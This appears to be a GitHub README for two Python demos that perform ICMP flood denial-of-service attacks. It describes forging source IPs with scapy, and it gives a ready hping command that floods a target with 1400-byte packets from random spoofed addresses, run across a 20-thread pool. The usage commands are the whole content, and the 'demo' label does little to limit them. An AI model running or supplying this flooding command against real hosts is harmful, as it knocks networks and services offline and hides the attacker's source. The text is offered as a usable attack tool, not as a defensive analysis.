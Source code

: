 # ICMP_Flooding_Demo

These are two demos that simply implement icmp flooding

### Test1.py

This file uses `scapy`, a python library, to implement sending requests.

`inputIPCheck()` implements the function to check the input ip. `fakeSourceIPgenerates()` implements the function to forge the source ip.

#### Usage

```sh
pip install scapy
sudo python test1.py
```

After that, enter the target ip in the LAN.

### Test2.py

It uses hping to implement the icmp flooding attack. Send icmp packet with random source ip address and packet size 1400b to target ip to implement dos attack.

```sh
hping --icmp --rand-source --flood -d 1400 192.168.1.1
```

The script introduces the `ThreadPoolExecutor` to open a pool of threads of size 20 to execute the task of flooding attack.

#### Usage

```sh
sudo python test2.py
```



